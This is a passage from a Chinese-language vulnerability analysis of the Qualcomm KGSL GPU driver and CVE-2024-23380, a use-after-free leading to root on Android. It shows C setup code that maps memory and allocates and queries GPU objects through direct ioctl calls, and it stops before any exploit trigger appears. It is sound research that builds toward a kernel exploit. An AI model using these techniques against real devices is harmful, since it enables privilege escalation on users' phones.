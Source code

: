 ```
    .flags = KGSL_MEMFLAGS_USE_CPU_MAP | KGSL_MEMFLAGS_USERMEM_ADDR | (KGSL_CACHEMODE_UNCACHED << KGSL_CACHEMODE_SHIFT) ,
    .memtype = KGSL_USER_MEM_TYPE_ADDR,
    .hostptr = (uint64_t)buffer,
    .offset = 0,
    .len = 0x1000L,
};
ret = ioctl(gslfd, IOCTL_KGSL_MAP_USER_MEM, &args);
if (ret)
{
    printf("ioctl IOCTL_KGSL_MAP_USER_MEM cmd_data error: %d %s\n",errno,strerror(errno));
    return 0;
}
```

继续查看高通 GPU 内核驱动的代码，可以看到驱动里大量复杂的 ioctl 交互逻辑，处理用户态的请求。

![](https://image.3001.net/images/20250325/1742895738_67e27a7a36a4c6fed6795.png!small?1742895738763)

正常的 GPU 交互逻辑，是 app 通过加载 OpenGL 的链接库，在链接库里构造好参数，来和驱动进行 ioctl 交互。但是一个恶意的攻击者可以直接不加载 OpenGL 库，直接调用内核态的驱动代码。如果驱动代码中未正确处理用户请求，就有可能导致 UAF、溢出等内存漏洞。

GPU 漏洞回顾
--------

2024 年 8 月，Google 的 Android Red Team 团队披露了一个高通 GPU 驱动的 UAF 漏洞 CVE-2024-23380，借助这个漏洞，攻击者可以从普通 APP 的权限提升到系统 root。接下来本文对该漏洞的成因、利用过程进行详细分析。

高通 GPU 驱动提供了一系列接口用于操作 GPU 的虚拟内存。如 IOCTL_KGSL_GPUOBJ_ALLOC 用于申请 GPU 对象（内存），API 返回一个 id 标志，用于区分不同的对象。可以通过 IOCTL_KGSL_GPUOBJ_INFO 查询到 id 对应的 GPU 对象所占居的虚拟内存地址、内存大小等信息。

```
struct kgsl_gpuobj_alloc param = {
    .size = 0x1000,
    .flags = KGSL_MEMFLAGS_FORCE_32BIT,
};
ret = ioctl(gslfd, IOCTL_KGSL_GPUOBJ_ALLOC, ¶m);
if(ret < 0) {
    printf("alloc failed %d %s\n",errno,strerror(errno));
    return -1;
}
printf("vbo obj size: 0x%llx, flags: 0x%llx mmapsize: 0x%llx id 0x%x\n", param.size, param.flags, param.mmapsize, param.id);
struct kgsl_gpuobj_info info = {
    .id = param.id,
};
ret = ioctl(gslfd, IOCTL_KGSL_GPUOBJ_INFO, &info);
if(ret < 0) {
    printf("get info failed %d %s\n",errno,strerror(errno));
    return -1;
}
uint64_t obj_addr = info.gpuaddr;
printf("obj_addr = 0x%lx\n",obj_addr);
```
